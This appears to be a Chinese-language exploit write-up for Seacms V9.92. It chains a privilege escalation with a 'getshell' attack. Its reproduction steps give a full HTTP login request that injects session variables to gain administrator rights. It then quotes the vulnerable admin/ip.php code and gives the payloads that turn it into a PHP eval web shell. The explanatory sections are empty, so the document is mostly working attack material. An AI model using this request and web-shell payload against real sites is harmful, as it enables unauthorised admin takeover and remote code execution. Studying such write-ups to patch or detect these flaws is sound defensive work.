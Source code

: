 ```yaml
---
title: "Seacms V9.92 越权+Getshell"
id: zhfly3119
---
```


# Seacms V9.92 越权+Getshell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 越权

#### 1、首先注册一个普通用户

#### 2、burp抓包改包，下面是发送payload

```
POST /login.php HTTP/1.1
Host: 0-sec.org
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.8.143
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.8.143/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9smu8an6nvbrqasp5m0o4bmts7
Connection: close `dopost=login&userid=test&pwd=123456&validate=djyf&_SESSION[sea_admin_id]=1&_SESSION[sea_ckstr]=djyf` 
```

#### 3、 登陆后台页面，可以发现管理员账户变成-1了,也同时拥有管理员的权限

### getshell

`/admin/ip.php`

```
if($action=="set")
{
    $v= $_POST['v'];
    $ip = $_POST['ip'];
    $open=fopen("../data/admin/ip.php","w" );
    $str='<?php ';
    $str.='$v = "';
    $str.="$v";
    $str.='"; ';
    $str.='$ip = "';
    $str.="$ip";
    $str.='"; ';
    $str.=" ?>";
    fwrite($open,$str);
    fclose($open);
    ShowMsg("成功保存设置!","admin_ip.php");
    exit; 
```

我们再去看一下ip.php格式

```
<?php $v = "0"; $ip = " ";  ?> 
```

我们可以构造一下,然后保存

```
*;phpinfo();// 
```

```
";@eval($_POST[pp]);// 
```

![image](../img/2207e9fd0af5e1f5434b8e812720c669.png)